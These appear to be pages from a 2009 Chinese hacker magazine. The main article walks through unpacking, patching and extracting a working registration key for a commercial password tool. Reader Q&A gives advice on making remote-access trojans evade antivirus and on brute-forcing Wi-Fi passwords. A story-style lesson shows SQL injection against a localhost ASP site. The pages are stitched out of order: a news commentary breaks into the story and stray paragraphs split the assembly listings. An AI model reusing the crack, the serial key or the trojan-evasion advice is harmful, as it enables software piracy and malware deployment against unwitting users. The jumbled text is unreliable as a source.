程序本身生成的快捷方式和 PassKing.exe 在功能上的实现只是调用了程序目录下的另外两个文件：GetACPass.exe 和 PassView.exe，其中 PassView.exe 是获取星号密码的，而 GetACPass.exe 则是破解 Access 密码的。我们完全可以通过主程序直接使用目录下的这两个文件，这个不是本文的关键，关键在于破解和修改。

## 一、主程序脱壳

用 PEiD 查壳发现，是 ASPack 2.12 -> Alexey Solodovnikov 的壳，如图 1。


直接 ESP 定律搞定，这里不是本文的重点，简单地提下。需要相关方面的知识可以到网上搜索，或者看“黑手”以前的杂志。

用 OD 载入程序，会中断在 `00560001  > 60 pushad` 这一行，按一下 F8（也就是单步），在寄存器窗口中发现 ESP 变红后选中 ESP 的值，右键在数据窗口中跟随，选中数据窗口的前四个字节，下硬件访问断点（Word），详细操作如图 2。

然后直接 F9 运行，程序会中断在：

```asm
005603B0    75 08            jnz short yuan-Pas.005603BA
005603B2    B8 01000000      mov eax,1
005603B7    C2 0C00          retn 0C
005603BA    68 6CCC4C00      push yuan-Pas.004CCC6C
005603BF    C3               retn
```

此时开始 F8 单步跟踪，直到 `retn` 返回到如下位置：

```asm
004CCC6C    55               push ebp
004CCC6D    8BEC             mov ebp,esp
004CCC6F    83C4 F0          add esp,-10
```

此时 Alt+F9 执行到返回，然后 F8 单步跟入，仍需要注意观察堆栈窗口。在多次单步之后，可以在堆栈窗口中看到程序取得用户名和注册码，如图 5。


```asm
004CCC72    53               push ebx
004CCC73    B8 FCC84C00      mov eax,yuan-Pas.004CC8FC
```

此时就可以抓取内存镜像了，直接用 OD 的脱壳插件即可。脱壳后用 PEiD 查壳，可以发现程序是用 Borland Delphi 6.0—7.0 编写的。

## 二、主程序的爆破

首先测试下传统的验证方式，是否是在内存中明文比较。用 OD 载入脱壳后的程序，直接 F9 运行。点程序主界面的“注册”，输入用户名和假的注册码。

返回到 OD 窗口，在命令窗口中输入 `bp MessageBoxA`（需要注意区分大小写）。回车后回到程序界面点“验证注册”，程序中断后返回到 OD 窗口，此时位于系统的领空。

Alt+F9 执行到返回，此时会提示重启验证。也就是说，程序的注册码是保存到文件或者注册表中的，注册窗口并没有调用注册码验证的判断子程序。程序开始运行后已经不会对注册码进行比较，而是在程序启动时通过注册表获取注册码数据进行注册码验证的。


搜索注册表可以发现程序是把注册码保存在注册表中的，如图 3。

那么要想破解程序就必须从注册表下手了。重新载入程序，多次分析后可以发现，程序读取注册表用的 API 函数为 RegQueryValueExA。对 RegQueryValueExA 下断，由于系统动态函数调用较多，所以需要多次中断。

此时需要注意观察堆栈窗口，直到堆栈窗口中出现：`**RegUser**` 字样后停止运行，如图 4。


此时需要注意下面的关键代码：

```asm
004CBF65    8B55 F4          mov edx,dword ptr ss:[ebp-C]   // 将真正的注册码放入 edx
004CBF68    58               pop eax
004CBF69    E8 7289F3FF      call ...                       // 此处就是程序的关键 call：注册码比较
004CBF6E    75 07            jnz short ...                  // 此处为关键跳：错误则跳走。要实现爆破只需要将 jnz 改成 jz 即可
```

此时注意寄存器和堆栈窗口就可以看到正确的注册码了，如图 6。

**26B0D8CFADF1D0AA** 就是真正的注册码，用得到的注册码注册下，程序是可以注册成功的，如图 7。

然后打开的是我修改软件后设置的博客主页，而从快速启动栏打开的则是空白页，如图10。

图10里左边的 IE 窗口是通过快速启动栏打开的，右边的窗口是通过桌面的 IE 快捷方式启动的，但是效果却有很大的不同。软件虽然在设置主页的时候采用了劫持方式，但是在修改之后可能通过简单的常规方式修改回来，所以行为判定上仍可以定义为流氓软件。

## 三、修改程序流氓特性

程序注册后原来要求注册的窗口没了，取而代之的要求是把什么垃圾网站设为首页，如图8、图9。

如果不想修改程序本身的限制，可以将其内部的网址修改为自己的网站，这样可以避免不小心点了之后首页被修改成难以改变的页面。

程序在运行时会下载 http://mydl2.pcnet123.cn/mecjkc.exe 到 C:\，然后运行。另外，程序中的网址特别多，这里直接改掉，否则程序一旦设置了主页，要修改过来就需要费一些周折了。

如果要想修改回原来的主页，需要打开注册表找到

```
[HKEY_CLASSES_ROOT\CLSID\{871C5380-42A0-1069-A2EA-08002B30309D}\shell\OpenHomePage\Command]
@="\"C:\\Program Files\\Internet Explorer\\iexplore.exe\" http://www.h4ck.org.cn"
```

将后面的 http://www.h4ck.org.cn 删除就可以了。

此处的修改可以直接用 C32asm 或者其他的十六进制编辑器，打开脱壳后的文件查找下列字符串：

```
ASCII "http://mydl2.pcnet123.cn/mecjkc.exe"
ASCII "www.haoda123.com"
ASCII "www.87265.com"
ASCII "http://www.haoda123.com.cn"
ASCII "cksign.haoda123.net"
```

找到后全部用 00 填充，或者可以修改为自己的地址。这里为做测试，我就改成我的博客地址吧。填充字符串，这里就不多说了，现在我们测试下修改主页后的效果。

下面我们来去掉程序退出时的询问对话框。用 OD 载入程序直接 F9 运行，在命令窗口中输入 bp MessageBoxA 后回车。返回程序点关闭或者退出按钮，OD 中断后直接 F8 单步执行到返回，关键代码如下：

```
00460014  |. 53           push ebx    ; /Style
00460015  |. 57           push edi    ; |Title
00460016  |. 56           push esi    ; |Text
00460017  |. 8B45 FC      mov eax,dword ptr ss:[ebp-4] ; |
```

我的 IE 默认主页是留空的，在点了图8中的“确定”之后，我们在 IE 属性中把主页修改成空白页，但是从桌面启动的 IE 仍然打开的是我修改软件后设置的博客主页，而从快速启动栏打开的则是空白页，如图10。

```
0046001A  |. 8B40 30      mov eax,dword ptr ds:[eax+30]
0046001D  |. 50           push eax    ; hOwner
0046001E  |. E8 8573FAFF  call <jmp.&user32.MessageBoxA>
00460023  |. 8945 F8      mov dword ptr ss:[ebp-8],eax
```

上面就是调用 MessageBox 的代码，要想去掉该窗口只需要将第一行改成 jmp 460023 即可，如图11。然后按照标号依次选择“复制到可执行文件”→“所有修改”→“全部复制”，在新窗口中右键保存文件为 exe 文件即可。重新运行保存的文件，点击退出的时候就会发现那个询问对话框已经消失了。

## 四、总结

这里以常规的方式进行了脱壳和破解，当然也有可能有其他的更简洁的寻找关键 call 的方法，这里想说明一下的是程序的保护方式。

这么一款软件如果安装后单纯地通过生成的快捷方式运行，则看不出什么问题，但是到目录下就发现软件的保护是形同虚设了。我们可以直接通过目录下的程序直接运行，而不必注册 68 元的这么一款软件。

另外，程序在安装后目录下会有个 baidu.exe，这个是百度超级搜霸的工具条插件，我已经删除。对于程序下载后运行的 http://mydl2.pcnet123.cn/mecjkc.exe，本文没有做分析，感兴趣的可以自己分析下，有什么问题欢迎来论坛和我交流。

【文章所涉及到的目标程序已收录在光盘中】

**编辑点评：** 本文重点不在于如何去破解注册这个软件，而在于如何修改代码，达到自己所需要的目的。老实说，以前我也看过这个软件，做得很垃圾，而且一个系列很多软件，其注册算法都是 DES 算法。另外提一下，作者的 PEiD 工具太特别了。

**Q：** 在黑手上看见很多人下载源程序之后在自己的机子上测试，请问这个测试环境要怎么搭建的？

**A：** 关于脚本环境的搭建，在《精通脚本黑客》此书中已经详细介绍过了。这里我再简单答复一下，如果是建立 ASP 的脚本环境，使用 IIS 或者 NETBOX 即可；建立 PHP 的环境，WEB 服务器可以是 IIS 或者 APACHE，但是同时要安装 PHP 以及 Zend 引擎；建立 JSP 的环境，需要安装 JRE+TOMCAT；测试 ASP.NET，则需要 .NET Framework 及 IIS 相关设置。当然，如果你要架设多种脚本支持的环境，那么建议安装 IIS+APACHE 两种不同的服务器，设定不同的端口进行调试。建议新手朋友建设 ASP 环境时，可以利用 NETBOX 核心的小旋风 ASP 服务器；搭建 PHP 则可以考虑 WAMP 套装的一款程序 PHPNOW。

主题链接：http://www.nohack.cn/bbs/thread-106810-1-1.html

**Q：** 怎么破无线网的密码？

**A：** 我看到很多朋友误以为你是要破解无线路由器的密码，可以看出来你是想破解无线的连接密码。关于无线密码的加密模式，在总体环境下一般分为 WEP 和 WPA，第一种方式支持 5 位及 13 位密码设置，已经有很多方法可以破解了。而 WPA 可以考虑采取 GPU 模式的暴力破解。关于无线密码的破解，黑客手册上已经有过详细的文章及专业讲解了，建议你参考一下以前的杂志，无线密码的破解技术已经很成熟了。而我们即将推出的《无线黑客傻瓜书》则详细地介绍了相关技术，由国内著名的无线安全专家写就，内容浅显易懂，深入浅出。

主题链接：http://www.nohack.cn/bbs/thread-106766-1-1.html

**Q：** 我配置好“鸽子”的服务端，但过了免杀期，不知道自己配置对了吗？更无法远程操控，我要学什么技术，或怎么做使木马免杀，请帮忙提供一个思路。

**A：** 关于远程控制的使用以及免杀技术的提问，在论坛已经是屡见不鲜了，这里我还是想给新手以及新读者们一些心得和见解。关于服务端的配置，取决于外网以及内网的环境，作为主流的反弹性质的连接，多采用 WEB 页面接收以及域名中转，因为 PPPOE 协议下的 ADSL 拨号，IP 是变更的，而内网必须连接一个固定的信息，所以你的 IP 必须通过一个固定地址进行记录。外网环境下很简单，而内网环境下我们采取路由器映射、肉鸡端口映射或者相关软件来实现。而免杀技术，一般还是采取修改特征码或者加壳加花等方式，常规的主流远控，一般会被杀软定义多处特征，所以有必要选取一个生僻的远控进行免杀。

主题链接：http://www.nohack.cn/bbs/thread-106741-1-1.html

**Q：** 我在网上找的免费域名的灰鸽子，看着挺正规，不像有问题的，而且 FTP 也能开启，可是就是不能开启 WEB 服务端，提示的是“打开 WEB 端口失败，请使用其它端口”。请问，这是怎么回事？我在百度上找了，没找到解决办法，希望有高人指点一下。基本上线路流程已经知道了，所以就请大家不要怀疑我的基本知识了，就是希望能直接帮我分析明白原因。不胜感激！

**A：** 无法开启 WEB 服务，则是你的 80 端口被占用了。很简单的一个判断命令：netstat -ano 检测一下本地的某个程序是否被占用，一般 P2P 协议的软件，例如迅雷和快播，都喜欢以 80 端口作为后台监听，所以通过命令以及进程 PID 锁定占用 80 端口的程序，关闭后即可开启 WEB 服务。当然你可以修改 WEB 服务的端口，例如改为 82。我很久没有研究过灰鸽子等远控了，关于你的开启 WEB 服务，我有些不解，如果是作为一个反弹连接，完全可以申请或者购买一个空间进行中转，一般都会送一个三级域名。如果你是想通过域名绑定采取 FTP 中转，那么你完全是多此一举，因为灰鸽子可以支持域名转发。所以建议新手朋友学习远程控制的时候，应该先了解一下 WEB 以及 FTP 这些协议，还要弄清楚上线的原理及流程。

主题链接：http://www.nohack.cn/bbs/thread-106739-1-1.html

国庆一过，万物激励，看着国家强大，感受民众富裕，很乐很高兴。一过 10 月，冬天就快到了，一学习起来就想冬眠，没办法，谁叫俺是属蛇的呢！眼看着 11 月 11 日就快到了，知道是什么日子吗？回答光棍节的一律错！你要问为什么啊？你太不注意观察了！答案请往下一——下——下——看……

# 建议选摘

姓名：李浮

职业：学生

建议：最近发现同桌在说什么偷菜、停车、卖人，还在课上看你们这本杂志，我看了半天，貌似和计算机有关。他说是与黑客相关的，还说可以操纵我的电脑，用我的 QQ 和班上的女生聊天，冒充我问她们的隐私问题，真的是这样吗？

一头晕汗的菜鸟：从理论上来说，以上情况都是可以发生的，施主你就从了吧。赶紧和他一起学习本刊，做到对电脑技术的基本了解，然后提升自己的知识，做到攻防一体吧。

姓名：周折

职业：未知

建议：越来越喜欢看“黑手”了，里面的一些技巧很实用啊，知识也与时俱进，现在周围朋友的电脑出了什么问题，比如被流氓了啊，被病毒了啊，被木马了啊，都让我去解决，每次收费一顿饭，哈哈，长得越来越胖了……不行，下月开始得做运动锻炼了，就选钓鱼吧，呵呵。

体重超标的菜编：条件好了就是容易长啊！不过我是长的骨头！非常高兴本刊能够给众多读者带来多方面的影响，也希望大家保护眼睛，多多锻炼，切记走路的时候别看书，看美女哦！

姓名：孟凡贵

职业：司机

建议：由于工作性质，常常在外地跑车，很难在一个地方长久地驻留。偶然一次机会看到贵刊，觉得内容很有意思，于是也想与时俱进，闲暇时学习一下，补充一些另类的知识。接触电脑也是断断续续，但我争取本年度买个上网本，没办法，便宜才是硬道理啊！

最近准备买本的菜编：共同努力啊，偶也准备买台本本用呢，不大不小，14 寸刚好。不过对于上网本来说，如果只是简单的娱乐，还是可以保证的了。建议这位朋友用上网本配合个带 GPS 的智能手机，最好可以支持 3G，或用外置 3G 上网卡，可以享受到随时随地的无线网络哦。最后公布最上面的答案，11 月 11 日是排队日啊！大家猜清楚我的问题，是问什么日，不是什么节！

# 非安全黑客手册

NOhack 记录本土黑客文化，碰撞黑客文明进程。投稿：nohack@21cn.com

2009.12 零 10 元

- [MobileHack]
- iphone/ipod 完美越狱
- JAVA 游戏小修改
- VB 简单编写实现手机控制电脑

- [0day]
- 发掘开心网 XSRF 漏洞实现简易 Ajax 蠕虫
- E-doo 音乐系统 0DAY 分析与利用
- F2blog Blind SQL Injection 0Day
- 新云 CMS4.0 系统漏洞利用
- CreateLive CMS 4.2 注入漏洞分析

- [经典案例]
- IIS 文件解析漏洞助我轻松拿下报价服务网
- 拥有自己的 Linux 肉鸡
- 超简单入侵“XX 盛世”主机代理平台
- 对 XX 大学城市学院主站的一次友情检测
- 迂回战术在渗透中的应用
- 用搜索型注入点实现了第一次定向入侵

- [代码世界]
- 解密网游木马开发全记录——WM_GETTEXT 获取浩方密码
- 编写 MD5Decoder
- 病毒扫描工具的简易制作

- [精彩连载]
- 功夫熊猫 hacker 系漫游记 5
- Access 中“注”入 + 低位繁杂反 WebShell
- 防止网站挂马的实用技术之三
- 软件破解入门系列——基础知识和软件爆破
- 硬幕独家版 V——至此，谁也不知道结局

- [漫析]
- 浅谈恶意程序行为分析
- Win32/AutoRun.Agent.NZ 蠕虫感染文件的简单分析和文件修复

# 入侵之道——Shell 鬼魅

【高招】自动挂马的小方法  
一些入侵中你不得不考虑域名的 IP 地址有关的问题

# DVD 精彩内容一览

- 【黑客电影】纹身女黑客 / 黑客综合工具包 / 网站扫描器 / QQ 群号码采集器 2009 免费版
- 微软警用计算机破解取证工具 COFEE / 微软免费安全工具 1.0.1611.0 简体中文版
- 【教程】新版 Windows 基础教程 / Linux 自带防火墙配置视频 / sftpd 设置视频
- CentOS 3、5.4 配置 JSP Linux 服务器

# 全体编辑发狂推荐

正在热卖：

- **《无线黑客傻瓜书》**——冬日里的红！专为新手打造，无线专家精作，内附特别定制的无线攻击 NoHack 专用 BT4 DVD 光盘。
- **《精通VB黑客编程——Hack编程实例提高讲 III》**——紫气“冬”来，万人翘盼！
- **《精通脚本黑软攻击技术》**——黑客培训网站高级培训讲师力作！

即将登场：

- 2009 年合订本下卷，收藏便携首选！
- 黑客主流攻击大全，经验岁月的积累！
- 还有更多……请关注每期杂志！

# “黑二代”的“黄金”岁月

我们生活在这个时代是很幸福的！未来还很长，但有些人的路却很短。不久前召开的“2009 互联网高峰论坛”报出统计数字，3 亿多中国网民越来越多地在网络平台上交易，黑客们也在网络上布下“黑洞”吞噬钱财。

我们早就知道，一个基于网络的地下黑色产业链已逐渐形成，中国互联网用户每年因为网络安全漏洞被“黑掉”的钱财竟然高达 76 亿！如今，中国已经成为全球僵尸电脑最多的国家，沦为网络安全的重灾区。当然，这是必然的，因为人口多，因为求知欲强，因为希望摆脱束缚，向往自由……

黑色产业链存在的基础就是黑客，中国的黑客培训市场，其火爆程度远远超出人们的想象。互联网上的黑客培训活动已经形成规模化产业效应，途径多元化，向传统培训渗透，网民参与黑客培训的热情很高。就这样，黑客培训源源不断地为黑客产业链培训基础、提供人才，在此诞生了无数的小黑客、中黑客、大黑客。

虽然对于纯粹以技术为生的第一代黑客来说，不屑于去整天盗号抓鸡，但黑色产业的暴利却也扰乱了许多人的心。黑客这门技术深得很，所以需要终身学习，最好的方法就是边干边学。

现在的“黑二代”以利益为中心，许多人都很年轻，有些甚至还只是高中生！他们利用网络去做一些恶意破坏，从中获得非常丰厚的商业利益。正所谓：“买卖，买卖，有买才有卖”，那么找黑客的究竟是些什么人呢？

- 一般来说，黑客的客户有如下几类：
- 一类是商业公司，可能需要去攻击它的竞争对手，或者窃取商业对手的一些用户资料和重要数据；
- 一类是犯罪集团，他们指使黑客去入侵网上银行，窃取用户资料，然后制成银行卡，到银行提款；
- 一类是盗取网络游戏的账号、装备等这些虚拟财产的人。

其实在“黑二代”中，很多人并不知道自己所做的事情有多大危害，认为只要自己有利可图就行。因为这绝对是一个暴利行业。“机器狗”病毒的制造者曾不惜以月薪 10 万元，即 4 倍于顶尖程序员的高薪招聘制作病毒的程序员，而一般的散兵游勇黑客，月收入 5 万也很普通。正是这种利益驱动，黑客行为给互联网安全造成了极大的破坏。

虽然来钱很快也很容易，但是越来越多的中高级“黑二代”却处于焦虑与恐慌之中，因为他们知道，自己永远见不得阳光。

今年 2 月，人大常委会通过了刑法修正案（七），其中就增加了对黑客的内容。其第二款称：违反国家规定，侵入计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。这是首次明确对黑客的法律惩处。

奉劝“黑二代”们，研究和掌握技术固然重要，但一定不要触犯国家法律。目前一些朋友已经纷纷寻找出路，一般是进入网络安全公司为主要选择。但是，只要有网络漏洞存在，只要有暴利存在，也许，仍然会有黑客前赴后继，以身试法。（眼镜猴）

# 新闻时评

## Google 危机，微软黑大战？

新闻资料：

据《New York Times》不久前刊登的文章称，鲁珀特·默多克掌控的新闻集团准备屏蔽掉 Google 搜索引擎对自己新闻内容的搜索，转而将相关内容对微软搜索引擎 Bing 开放，并已经与微软进行了最初的接触。

一位知情人士透露，此次商谈是由新闻集团推动的，谈判尚处于初期阶段。新闻集团旗下拥有多家报纸，包括《华尔街日报》《纽约邮报》以及英国的《伦敦时报》和《太阳报》等。《金融时报》最初报道了新闻集团与微软的相关接触，商谈包括了微软可能会向新闻集团支付自己搜索引擎 Bing 索引相关内容的费用。

默多克已经多次就公司的在线内容需付费使用问题发表过讲话，新闻集团也一直在探索旗下报纸的在线收费模式，并对 Google 采取了日益强硬的立场。此举新闻集团将从微软获得相关新闻搜索付费，事情的发展可能会使得新闻产业最终获得除了广告之外的收入。据悉，微软也接洽了其他大型网络出版商，劝说他们把自己的网站从 Google 的搜索引擎中撤除。

微软很长时间以来一直试图追赶 Bing，很想采取强力措施打破 Google 在搜索市场上的统治地位，并一直试图通过提供更为多彩的界面以及更为详尽的结果来推介自己旗下的搜索引擎 Bing。另外，它们今年签署了一份协议，收购了雅虎搜索服务背后所拥有的技术架构，以交换与搜索广告之间建立伙伴关系。

微软已经显示出愿意敞开自己巨大的现金储备，并支付给新闻集团相关费用，而对方亦已同意接纳 Bing 而放弃 Google。


# access 手工注入 + 后台获取 webshell

时光飞逝，不知不觉五个月的时间已经过去了……回想熊猫阿宝从零基础到现在的菜鸟黑客，走过来还是挺不容易的。从那炎热的夏天到如今的寒冬，阿宝从来没有放弃过学习，那份对技术追求的执着，那种求知的欲望，鞭策着他不停地前进。

莘莘学子在学习中当然要有阿宝这种精神才行。兴趣是最好的老师，相信很多同学都是对黑客方面感兴趣，例如盗取别人的 QQ 密码、破解别人的相册密码、控制别人的电脑等，但是对于编程方面，很多同学就不感兴趣了，例如脚本、汇编、C 语言等比较枯燥的课程。

要是这样的话，你的电脑技术必定处于低水平，要想在技术方面有所提升，必定要掌握好基层的知识。这个时候有很多同学就会问了，学这些课程很枯燥的，一点激情都没有，倒不如到网上下载一些教程，看看弄弄的多好玩啊！

其实这样的想法是普遍存在的，我们不妨深入地想一下，按照网上的教程做，但是我们不明白其中的道理，那也没用啊。要是以后没有教程了呢？那岂不是没得玩了吗？

我们再想想，为什么人家是大牛，而我们至今还不是呢？每当看着大牛的简历都写着精通 XX 编程、XX 脚本，这可是别人努力的成果。只要把基础的东西学好了，以后挖掘漏洞就方便多了，所以我们在学习研究别人的教程时，需要想想其中的原理。例如 SQL 注入中涉及脚本和 SQL 语言的应用，我们就应该去补充一下这方面的知识，这样才能够更好地运用它们，使自己的技术上一个台阶。

至于培养对枯燥的课程感兴趣，其实也是很容易实现的。譬如你在学习 ASP 语言时，发现了某套程序有注入漏洞，那你肯定会感觉到很有成就感，这样的快感比你利用人家的程序入侵网站强多了。

保持快乐的心情去学习，不要整天硬要求自己学习。其实一天抽出两三个小时学习编程已经是相当不错的了，只要持之以恒，把握学习进度，效率就会提高的。在学习中千万不能三心二意哦！告诉你们一个秘密吧，熊猫阿宝在学习中从来不开聊天工具，这样会更加专心致志地投入学习中去。

# ……此时……

此时的和平谷已经被大雪覆盖了，天还下着鹅毛大雪。从山顶眺望远处，除了河流之外，其他一片都是白色。今年的雪来得特别早，并且比以往的猛！在这么寒冷的早晨，阿宝还是早早起床了，因为新的一天又要开始了，还得继续奋斗。

阿宝大摇大摆地走在大雪中，走着走着被这么美的环境迷住了，他要展露一下自己的功夫。阿宝对着一棵大树使出了霹雳腿，并使得那树东摇西摆。怎知把树上的雪全弄下来了，非常的多，差不多把阿宝给埋了，只露出个头。

锻炼了一会儿，阿宝又在想，师兄今天会给他讲授什么技术呢？马上快步走向攻防实验室……首先进入阿宝视野的是螳螂师兄在键盘上面“跳舞”，他敲击键盘的速度还真是惊人啊！别看他个子那么小，打字速度还是很吓人的哦！

“哇！螳螂师兄！你在键盘上跳舞真好看啊，很有节奏耶！我佩服！嘿嘿。”阿宝笑嘻嘻地说。

“什么跳舞！小心我的螳螂拳。我现在是忙着写文档呢，给你写课件，待会给你上课用的，别在这捣乱！”螳螂师兄回答说。

“嘿嘿！好的啊！师兄辛苦了哦，那你忙！”这时熊猫阿宝走到猴哥的旁边，看猴师兄操作电脑。

“猴师兄，你这个是啥 SQL 注入工具哦？没见过。牛吗？好用不？传我一份哦！”熊猫看见猴师兄的软件简直是口水直流啦。

大概了解了这段新闻的背景，小编就来胡说了，个人愚见，仅供参考。微软与新闻集团的合作，内容涉及微软向新闻集团付费，把其新闻网站从 Google 的搜索结果中撤除，一场可能给报业带来一线曙光的搜索引擎战争即将打响。

微软所接触的一家网络出版商表示，“如果搜索引擎愿意为把我们纳入搜索结果而付费，这将赋予内容巨大的价值。”

不少人士认为，微软此意是对 Google 展开的直接攻击，因为它在施加压力，要迫使 Google 开始为内容付费，这完全是微软意图削弱 Google 的利润率。但这番争斗的最大受益者可能是报业，该行业尚未建构起可靠的在线业务模式，以充分取代逐渐下降的发行和广告收入。

提起 Google，大家对它最熟悉的地方就是搜索和 Gmail 吧？微软在搜索引擎领域拼命追赶 Google，在历经 5 年时间，并耗费了数亿美元资金后，于今年 6 月推出“必应”搜索引擎，这是微软迄今最为雄心勃勃的尝试。

Google 并不是以新闻内容为生，如果说 Baidu 是网民的搜索引擎，那么 Google 就是网站的搜索引擎。熟练使用 Google，能够使你在网络上得到的信息得以升华。

Google 厉害讲究的就是开放性，由此而推动了互联网技术应用的高速发展。其实熟悉网页编程的朋友都知道，ASP、PHP 或 JSP 都可以达到类似 Google 的信息收集效果，并不是 Google 不提供内容生成，你网站上的信息就只能通过访问你的网站才能看到。当然，设置一些必要的限制就除外了，比如要注册才能浏览。

其实，只要你的内容页面能够通过 Internet 连接到，那么就可以利用一些技术，不需要访问你的网站而直接看到所需要的内容。

料想有一天，大家可以自己通过一个网站前台自定义自己所需要的任何通过网络可以访问到的信息资源，这才是互联网的又一次革命。

“师弟别着急哦，这就是为你准备的啊！等下我会教你怎么用。”猴师兄头也不回地说着。

“师弟，你先到‘勇士圣殿’等我们吧！今天在那里给你授课，现在我们还有点事情要处理，接着就过去！”太极虎师姐给熊猫下了个命令似的。

“好的！师姐，我马上去！”说完，熊猫阿宝就飞奔过去了。

“上次给你讲解了 SQL 语言的一些常识及其语法，今天就用实例演示给你看，这节课就先讲述一下 access 数据库的攻击。要做好笔记哦，内容比较多。”蟾蜍师兄严肃地对着阿宝说。

“好的，师兄！上次的内容我基本都消化掉了，接下来我会更加认真的！”此时阿宝的眼神也是那么的坚定，从中就能感觉出阿宝的那份信心。

# 勇士圣殿

# 新的知识

到了勇士圣殿，阿宝回想起自己当初被选为神龙大侠时的情景。那时阿宝跟小浣熊面条就在这个圣殿，阿宝还把“低语武士的神奇灵坛”给打坏了。但是今天进去圣殿后阿宝发现，灵坛还在那，这下可神了！阿宝搞不懂这是为什么，明明那灵坛被他弄坏了，现在怎么还在呢？阿宝慢慢靠近那灵坛，生怕会再次碰坏它。

“灵坛啊灵坛，你不是被我打坏了吗？怎么还在这呢？莫名其妙！”熊猫阿宝自言自语地说。

“孩子！你还有面子跟我说这些话。要是你打坏的是真品，我可饶不了你。其实你上次打坏的只是一个赝品而已，阿呵。”那灵坛发出低语武士的声音，声音还有回响，有点吓人。

“啊！……”阿宝吓得躲在飞天犀牛大师的盔甲后面，然后慢慢地伸出头来。“你是谁啊？是低语武士吗？别吓唬我哦！对不起，上次我也不是有心冒犯的。原来是个赝品，我还一直都很内疚呢。”

“哈哈！师弟，看看我们的神龙大侠吓成那个样子。”蛇师姐的声音突然从殿中响起。

“师姐？你在哪里啊？”阿宝四处寻找，可还是没发现蛇师姐的踪影。

“师弟你就不用找了，我用的是千里传音。”蛇师姐暗地里偷笑。

“这不可能啊！千里传音不能看见我在干什么的吧？你一定在殿里面！师姐你就别忽悠我了啊，出来吧！”阿宝还是挺机灵的，没上师姐的当。

“嘿嘿！师弟，我在这呢，你抬头看看吧！”原来蛇师姐缠绕在柱子上面，的确是很难发现。

“晕倒！师姐你没事找事干嘛？爬那么高干嘛啊？”

“师傅吩咐我把神龙秘卷放回原处，并且在这弄一个投影设备，等下给你演示攻防实验！”

“哇！太感谢你们了。师兄师姐为我阿宝付出得太多了，我无以为报，恐怕只能以身相许了！I love you!”阿宝一副很感激的样子，说着似乎眼都快泛泪了。

“收着！谁要你以身相许哦！真是的！没点正经！”蛇师姐话声未落，太极虎师姐跟猴师兄们也到了圣殿。

“好了！该开始上课了！蛇师妹，设备都弄好了吗？”太极虎师姐问道。

“嗯！一切准备就绪！”蛇师姐按下遥控，投影设备将图像投影在神龙秘卷的正下方，也就是水池边上。屏幕很大，跟电影院的差不多，要是用来看电影真是一种享受啊！

“哇！很好！很强大！师姐，这个用来看高清电影真爽啊！”熊猫阿宝又在幻想着这投影设备能不能让他放电影！

“师弟！你又来咯，怎么那么不乖啊，这是用来教学的，不能用来看电影！”太极虎师姐用教训的口吻回答说。

“是啊，熊猫师弟你真不乖哦，态度不端正！”鹤师兄也出来说句话了。

“呜……知道咯！”阿宝显然有点失望。

“好了，别再浪费时间了，我们开始上课吧！上一次给你讲”

Access 是微软公司推出的基于 Windows 的桌面关系数据库管理系统（RDBMS，即 Relational Database Management System），是 Office 系列应用软件之一。它提供了表、查询、窗体、报表、页、宏、模块这 7 种用来建立数据库系统的对象；提供了多种向导、生成器、模板，把数据存储、数据查询、界面设计、报表生成等操作规范化；为建立功能完善的数据库管理系统提供了方便，也使得普通用户不必编写代码，就可以完成大部分数据管理的任务。

“阿宝！Microsoft Access 在很多地方得到广泛使用，常被用来开发简单的 WEB 应用程序。这些应用程序都利用 ASP 技术在 Internet Information Services 上运行。比较复杂的 WEB 应用程序则使用 PHP/MySQL 或者 ASP/Microsoft SQL Server。

现在绝大多数的公司都会弄一个网站作为跟客户交流的平台，更加方便客户了解该公司。作为一些小公司，他们一般会选择 access+asp 架构的网站程序，因为这样的网站开发容易，维护相对简单，而且相关程序的获取来源比较广。网上已经有很多现成的程序，只要直接下载回来就能使用了。”蟾蜍师兄给阿宝讲解说。

“是不是在本机架设好 IIS，然后到网站下载一套程序就可以了啊？”阿宝问。

“是的！很多公司都是这样做的，有些公司没有专门的开发人员，所以就直接下载别人的程序；有些公司虽然有开发人员，但是安全意识不高，在编写程序时也会出现很多漏洞的。”

“蟾蜍师兄，难怪我发现那么多公司的网站都有病毒呢！”

“是的！一般黑客入侵了这些网站之后会实施挂马，所以你访问这些网站时杀毒软件会提示有病毒。”

“蟾蜍师兄，你也给我演示一下怎么攻击 access+asp 的网站。”


“嗯！”阿宝显然有些兴奋了。

“好的，我现在已经架设好环境了，先访问 `http://localhost:2874/product/product.asp?id=69` 这个链接看看，如图 1，页面显示正常。然后在这个链接后面加上单引号 `'`，结果出现错误页面，如图 2。”

“一般来说，要是出现 `Microsoft JET Database Engine '80040e14'` 这段字符，我们就能判断出此网站是用 access 数据库的。”

“那么这个链接就是注入点了吗？师兄。”

“非也非也！这样不能说明它就是注入点，只是初步判断罢了。要判断它是否为注入点，还需要用下面的语句来验证一下。”

“在链接后面加上 `and 1=1`，发现页面是没有变化的，如图 3。接着在链接后面加上 `and 1=2` 进行提交，结果就报错了，如图 4。要是发生这样的情况，链接基本就是注入点了。”

“为什么要用 `and 1=1` 和 `and 1=2` 呢？我用 `and 2=2` 和 `and 2=3` 行吗？”

“行啊！肯定行的。这个问题提得不错，第一个 `and 1=1` 也就是上一节课给你讲解过的 SQL 语句中的内容。我们用 `and` 把后面的 `1=1` 语句连接起来一起放进数据库里面查询，那么 `1=1` 肯定是成立的，所以就返回正常页面了。当然也可以用 `2=2`、`3=3` 这样的。至于后面用 `and 1=2`，就是使等式不成立，所以页面返回错误信息。当然你也能用 `1=3`、`2=4` 这样。”

“哦！明白了！但是为什么 `and 1=1` 会跑到数据库里面执行了呢？链接的 `id=69`，理论上是把 69 放到数据库里面查询啊！”

“此时猴师兄向前一步说：‘熊猫师弟，这就要看程序的源代码了，product.asp 内容如下：’”

```asp
<!--#include file="conn.asp"-->
<%
Dim id,name
id=request.QueryString("id")
if id<>"" then id=int(request("id"))
set rs=server.CreateObject("adodb.recordset")
rs.Open "select * from product where id="&id&"",conn,1,1
name=rs("bclass")
%>
```

“什么玩意呀？看不懂，我只看懂 `select * from product where id="&id&"` 这句。”

猴师兄接着说：“看懂这句就差不多了，代码的意思是接收一个名为 id 的变量，然后加入到 `select * from product where id=` 这句中去查询 `product` 表。但是在接收这个变量时，没有经过严格的过滤，导致 `and 1=1` 也加入到数据库查询中了。”

